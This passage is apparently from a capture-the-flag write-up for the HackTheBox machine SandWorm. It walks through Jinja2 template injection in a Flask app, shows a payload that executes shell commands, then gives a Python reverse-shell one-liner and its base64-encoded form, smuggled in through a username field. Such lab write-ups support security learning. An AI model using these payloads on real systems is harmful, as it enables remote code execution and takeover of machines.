 ```python

# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```

All of them worked but while we try to get something more like command execution nothing happens, so by looking further into another site we’ve found a specific payload for Applications made in [Flask](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#playtime)

Here is the query

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

And here is the result on the verification

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a8cbeae5-9018-4fd4-a234-b279c18daff4"></img>
</div>

We got RCE, so now we gotta get a reverse shell

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/80c4c92a-1e4a-4f1a-afac-85b399101e18"></img>
</div>

Here is the way to change the username to test a new injection

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6051d636-3e62-4d32-9ea9-8d8ff3dd2891"></img>
</div>

After trying with different payloads we’ve found a way to get a `revshell` with the below `python` payload that we will send while decoding from  `base64`.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.35",33456));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

So we’ve `base64` encoded it

```python
┌──(kali㉿kali)-[~/HackTheBox/Machines/SandWorm]
└─$ cat pyshell.py | base64        
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChz
b2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjM1
IiwzMzQ1NikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29z
LmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIiknCg==
```

And now we can modify our username

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/825d28f9-06e9-4b8e-8327-128ae3863c78"></img>
</div>
